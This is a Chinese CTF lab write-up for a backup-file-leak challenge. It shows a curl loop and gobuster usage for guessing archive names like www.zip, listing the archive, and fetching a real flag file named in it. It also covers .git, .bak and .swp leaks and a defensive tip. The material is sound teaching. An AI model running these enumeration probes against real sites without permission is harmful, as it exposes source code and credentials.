

## 网站源码 -- 题目解法

> 前置知识：[[../../Web前置技能/HTTP协议/HTTP协议|HTTP 协议基础]] -- 先了解 HTTP 协议基础再来看本题

### 题目描述

页面提示备份文件的常见命名和后缀：

| 常见名 | web / website / backup / back / www / wwwroot / temp |
|--------|-------------------------------------------------------|
| 常见后缀 | tar / tar.gz / zip / rar |

flag 藏在备份压缩包内部——但不是压缩包里的文件内容（那是干扰项），而是**文件名本身暴露了服务器根目录下的真实 flag 文件路径**。

### 解法 1：脚本遍历（推荐）

先枚举备份文件组合，找到真实存在的备份：

```bash
BASE="http://目标/"
for name in web website backup back www wwwroot temp; do
  for ext in tar tar.gz zip rar; do
    code=$(curl -s -o /dev/null -w "%{http_code}" "$BASE/$name.$ext")
    [ "$code" != "404" ] && [ "$code" != "000" ] && echo "HIT: /$name.$ext -> $code"
  done
done
echo "扫描完成"
```

输出只有一条 HIT: `/www.zip -> 200`，其余全是 404。

然后下载并查看压缩包内容：

```bash
curl -s "http://目标/www.zip" -o www.zip
unzip -l www.zip
```

输出：

```
Length   Date   Time   Name
-------  -----  ----   ----
    494  12-28  22:16  50x.html
     17  08-02  13:11  flag_1155626646.txt
    608  02-17  21:32  index.html
```

直接看 `flag_1155626646.txt` 的内容：

```bash
unzip -p www.zip flag_1155626646.txt
# 输出：where is flag ??
```

> 这是 **干扰项**（decoy）。压缩包里的 flag 文件内容不是真的——但 **文件名本身**（`flag_1155626646.txt`）暴露了服务器同路径下的**真实** flag 文件。

直接访问服务器上的同名文件：

```bash
curl -s "http://目标/flag_1155626646.txt"
# ctfhub{5933d6146203d891f3a406fa}
```

> 陷阱：不要把压缩包里的文件当作最终答案。备份文件的危险在于它不仅泄露**内容**，还泄露**文件结构**（路径名 / 文件名），从而暴露服务器上其他可访问的资源。

### 解法 2：目录爆破工具

gobuster 版本（需要提前编写备份文件字典）：

```bash
gobuster dir -u http://目标/ -w dict/backup.txt --no-error -s 200
```

gobuster 会逐个试探字典里的路径，爆出 `www.zip` 后手动下载解压。

### 解法 3：高概率优先人工访问

如果不想跑脚本或装工具，也可以**按约定俗成的命名习惯**先试几组高概率组合：

```bash
# 最可能的几个组合（Linux /var/www 约定）
curl -s -o /dev/null -w "%{http_code}" http://目标/www.zip
curl -s -o /dev/null -w "%{http_code}" http://目标/web.zip
curl -s -o /dev/null -w "%{http_code}" http://目标/backup.zip
curl -s -o /dev/null -w "%{http_code}" http://目标/website.zip
```

或者直接在浏览器地址栏输入 `www.zip`，一次性命中即下载。

> 这个方法的局限：命不中就得回到脚本遍历。准确率取决于对命名习惯的熟悉程度——`/var/www` 是 Linux 默认网站根目录，所以 `www.zip` 是最高概率项。

### 解法 4：手动逐个组合访问（仅用于体会）

在浏览器里逐个试 7×4=28 种组合——慢但直观。可以体会枚举的"机械化"：

1. 浏览器打开 `http://目标/web.zip` → 404
2. 浏览器打开 `http://目标/web.tar.gz` → 404
3. ...
4. `http://目标/www.zip` → 下载框弹出

体会一圈下来，自然就会想写脚本了。

### 原理精讲 -- 备份文件为什么存在？

#### 开发者为什么留下整站压缩包



常见场景：

1. **上线部署后未清理**：用 `zip -r www.zip /var/www/` 打包后 FTP 上传，解压完没删压缩包
2. **以为文件名没人知道**：`backup.zip` 放在网站根目录，以为不会被发现
3. **自动化 CI/CD 残留**：打包脚本输出 `www.zip` 到 Web 目录后未清理
4. **编辑器 / 版本工具自动备份**：`index.php~`、`index.php.swp`、`index.php.bak`

#### 备份文件泄露的危害面

| 泄露层 | 具体危害 |
|--------|---------|
| **源码** | 直接获取后端代码，找到 SQL 注入点、文件上传漏洞、认证缺陷 |
| **配置** | 数据库 IP:端口:用户名:密码 全部暴露在 `config.php` 里 |
| **路径结构** | 看到完整的目录树和文件清单（如本题 `flag_1155626646.txt` 暴露真实路径） |
| **凭据** | SSH 密钥、.env 文件、API token 跟着一起打包 |
| **flag 本身** | 如果 flag 被写进源码而非环境变量，压缩包直接包含明文 flag |
| **代码逻辑** | 反推后端路由、权限校验、加密方法 → 针对性构造 payload |

#### 通用心法

> 服务器行为如果**可被观察**（200 vs 404 有明确区分），就用**脚本枚举**。覆盖面决定成功率，不依赖"猜"。

备份文件场景里，"可被观察"的条件完全满足：文件存在则 200，不存在则 404，curl 一行就判断。

### 同类变式（备份文件下载大类）

| 考点 | 说明 | 终端提取 |
|------|------|---------|
| **网站源码压缩包** | `www.zip` 整站源码备份泄露（本题） | 组合枚举 → unzip -l → 按文件名访问 |
| **编辑器备份文件** | `index.php~`、`index.php.bak`、`.index.php.swp` 编辑后残留 | `curl URL/index.php.bak` |
| **版本控制泄露** | `.git/` 或 `.svn/` 目录可公开访问 | `curl URL/.git/HEAD` 或 GitHack 工具还原 |
| **文本备份文件** | 直接把 flag 写到备份里，内容含 flag | 直接 `curl` 或用 `grep -oE` 提取 |
| **目录索引泄露** | 备份文件名出现在目录列表中 | 目录遍历题 — 见 [[../目录遍历\|目录遍历]] |
| **备份文件下载-命令执行** | 下载 `.bak` 文件含有 PHP 代码可执行 | CTFHub 同一分类的进阶题 |

### 核心知识点总结

| 概念 | 说明 |
|------|------|
| 备份文件 | 开发者在服务器上留下的 `.zip` / `.tar.gz` / `.bak` / `~` / `.swp` 等备份 |
| 整站压缩包 | `zip -r www.zip /var/www/` 打包后留在 Web 目录 |
| 脚本枚举 | `name × ext` 组合循环，curl 用 `200` vs `404` 判别 |
| 干扰项（decoy） | zip 内文件内容误导，真实 flag 在 zip 文件的**文件名**暴露的路径上 |
| `/var/www` | Linux 默认网站根目录，`www.zip` 是备份文件最高概率项 |
| `unzip -l` / `-p` | `-l` 列出内容不解压，`-p` 把内容输出到 stdout（方便 grep） |
| 防御角度 | 部署后删除备份压缩包，保留打包脚本但排除 Web 目录输出路径 |

### 关联教程

本知识库中更深入的 Web 安全与信息泄露内容：

- [[../../Web前置技能/HTTP协议/HTTP协议|HTTP 协议总览]] -- HTTP 协议基础与 CTF 考点
- [[../../Web前置技能/程序语言/程序语言|程序语言基础]] -- PHP 基础与源码分析
- [[../目录遍历|目录遍历]] -- 目录索引泄露与逐层追踪
- [[../phpinfo|phpinfo]] -- PHP 信息页环境变量泄露
- [[../../Web工具配置/目录爆破/目录爆破|目录爆破]] -- gobuster / dirsearch 目录枚举工具
- [[../../Web|Web 方向总览]] -- Web 方向 CTF 题型与思路总览
- [[../../../ctf解法与理论总目录|CTF 总目录]] -- CTF 理论学习与练习平台
